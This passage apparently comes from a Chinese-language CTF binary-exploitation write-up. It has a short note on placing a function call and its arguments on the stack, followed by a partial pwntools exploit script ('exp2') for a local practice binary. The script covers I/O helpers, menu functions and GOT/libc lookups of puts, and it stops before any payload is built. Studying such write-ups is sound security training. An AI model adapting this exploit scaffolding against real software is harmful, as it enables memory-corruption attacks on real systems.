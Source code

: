 [![](assets/1701612281-9d0641ed92afd99830907cd78794ab6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223928-e6442fb8-2578-1.png)

esp 中存储着 main() 的 ebp，我们如果要写入函数以及参数并且调用，可以写入 esp+4,esp-4，也就是前后各一位，这样的话预留返回地址就是 main(),栈会立即进行调用

**exp2:**

```plain
from pwn import *
p = process('./pwn3')
context.log_level='debug'
context.arch='i386'

elf = ELF('./pwn3')
libc = ELF('./libc.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def put(x,y):
    sl('put')
    ru(":")
    sl(x)
    ru(":")
    sl(y)
def get(z):
    sl('get')
    ru(":")
    sl(z)
r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']
```